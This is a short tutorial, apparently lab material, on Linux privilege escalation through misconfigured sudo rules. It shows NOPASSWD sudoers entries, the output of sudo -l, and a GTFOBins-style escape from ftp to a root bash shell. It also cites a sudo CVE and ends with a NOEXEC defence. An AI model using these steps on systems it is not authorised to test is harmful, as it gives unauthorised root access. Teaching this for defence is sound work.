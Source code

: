 Add this to the `/etc/sudoers` configuration:

```bash
user: ALL = (root) NOPASSWD: /usr/sbin/iftop
user: ALL = (root) NOPASSWD: /usr/bin/find
<SNIP>
```

List the programs that sudo allows your user to run:

```shell
user@pwn:~$ sudo -l
Matching Defaults entries for user on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
<SNIP>
```

Visit [GTFOBins](https://gtfobins.github.io/) and search for some of the program names. If the program is listed with "sudo" as a function, we can use it to elevate privileges, usually via an escape sequence.

Choose a program from the list and try to gain a root shell, using the instructions from `GTFOBins`.

```bash
user@pwn:~$ sudo ftp
ftp> !/bin/bash
root@pwn:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@pwn:/home/user# whoami
root
```

# Privilege Escalation via Vulnerable Sudo

It is always important to be aware that `sudo` vulnerabilities rise sometimes, here is a [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3156).

# Defense via NOEXEC Tag

Edit the sudo configuration file:

```shell
sudo visudo
```

The NOEXEC option can be utilized to prevent potentially dangerous behavior in certain programs. For instance, some programs, such as `less`, can generate other commands from their interface by typing specific inputs.
